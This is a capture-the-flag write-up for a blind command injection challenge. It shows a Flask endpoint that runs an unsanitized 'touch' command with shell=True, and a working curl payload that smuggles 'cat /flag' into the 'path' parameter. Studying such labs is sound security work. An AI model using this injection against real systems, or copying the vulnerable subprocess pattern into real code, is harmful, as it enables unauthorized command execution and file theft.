

# CMDi5

## Challenge Description

In this challenge, we're presented with a web server that performs a `touch` command based on user input through a URL parameter. However, the server does not return the output of the command. This makes the vulnerability a **blind command injection**, where we cannot directly see the result of our injected command — we have to deduce it indirectly.


## Server Code

The relevant part of the Flask server is:

```python
@app.route("/dare", methods=["GET"])
def challenge():
    arg = flask.request.args.get("path", "/challenge/PWN")
    command = f"touch {arg}"
    
    result = subprocess.run(
        command,
        shell=True,
        stdout=subprocess.PIPE,
        stderr=subprocess.STDOUT,
        encoding="latin",
    ).stdout
```

### Key Observations

* `arg` comes from the GET parameter `path` — user-controlled input.

* It's passed unsanitized into the shell via `f"touch {arg}"`.

* The command is executed with `shell=True`, which makes it vulnerable to shell metacharacter injection (like `;`, `|`, `>`, etc.).

* The output of the command is not shown, so it's a blind command injection.


## Exploitation

ince this is blind, we can’t see the output of our payload. But we can cause side effects — like writing the contents of `/flag` to a file we can inspect.

### Working Payload

```SHELL
curl "http://challenge.localhost:80/dare?path=/challenge%20|%20cat%20/flag%20>%20/FLAGCPOY"
```


### Breakdown of Payload
* `/challenge`	A dummy file to make touch happy.
* `%20`	Encodes a space.
* `cat /flag`	Reads the flag file.
* `> /FLAGCPOY`	Redirects the output to a file `/FLAGCPOY`.

Final command executed:

```SHELL
touch /challenge | cat /flag > /FLAGCPOY
```

### Retrieving the Flag

Now that the flag is stored in `/FLAGCPOY`, simply run:

```SHELL
cat /FLAGCPOY
```
